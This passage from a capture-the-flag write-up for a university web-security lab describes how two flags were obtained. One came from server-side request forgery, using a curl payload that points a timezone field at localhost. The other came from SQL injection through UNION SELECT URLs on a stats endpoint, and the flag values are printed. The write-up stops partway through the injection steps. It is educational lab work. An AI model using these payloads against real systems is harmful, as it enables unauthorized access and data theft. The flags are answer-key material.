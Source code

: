 # BSK* CTF \#1 - Web apps
Collect 3 flags at http://web.kazet.cc:31339/. <br/> <br/>
# Flag \#1 - FLAG{0c55606a072a912d264846cd22c95020e781}
## Vulnerability
Server-side request forgery ([SSRF](https://portswigger.net/web-security/ssrf))

## Approach
After examining the sources of the main page we can see that there is a `.js` script embedded in the HTML source page. The script calls `/time` API endpoint of the application.

So let's try calling the endpoint ourselves using `curl`:
```bash
$ curl -XPOST -H "Content-type: application/json" -d '{"timezone": "warsaw"}' 'web.kazet.cc:31339/time'

{"info":"17:13:38","status":"ok"}
```

We succesfully reached the endpoint and received the information about the time in Warsaw. Let's try to break something with the following payload:
```bash
$ curl -XPOST -H "Content-type: application/json" -d '{"timezone": "foo"}'
 'web.kazet.cc:31339/time'

{"info":"nie uda\u0142o si\u0119 pobra\u0107 http://foo.timezone.internal","status":"error"}
```

So we see that after us calling `/time` endpoint, application tried to reach some internal API located at `<input>.timezone.internal`. Let's try to access local server of the application:

```bash
$ curl -XPOST -H "Content-type: application/json" -d '{"timezone": "localhost:80/#"}' 'web.kazet.cc:31339/time'

{"info":"FLAG{0c55606a072a912d264846cd22c95020e781}","status":"ok"}
```
And we got the flag.

# Flag \#2 - FLAG{this_is_a_long_and_interesting_flag_9393265140f32ff7fc9f3b5bc9c065b3e6fdc4f4}

## Vulnerability
[SQL injection](https://portswigger.net/web-security/sql-injection)
## Approach
Let's look at `http://web.kazet.cc:31339/stats/<something>` endpoint. After trying to break some things we can see that this enpoint is vulnerable to sql injection. The `<something>` part of URL is a part of some SQL query. <br/> <br/>
Now we can investigate further:
1. Determine the types of the columns:
   * [http://web.kazet.cc:31339/stats/2022 AND 1 = 2 UNION SELECT 'foo', 1--](<http://web.kazet.cc:31339/stats/2022 AND 1 = 2 UNION SELECT 'foo', 1-->)
   * string and number
2. Determine the database vendor
   * After trying different syntaxes with a trial and error method we can say that it is most likely PSQL database.
3. Search for interesting tables (for example using tedious filtering)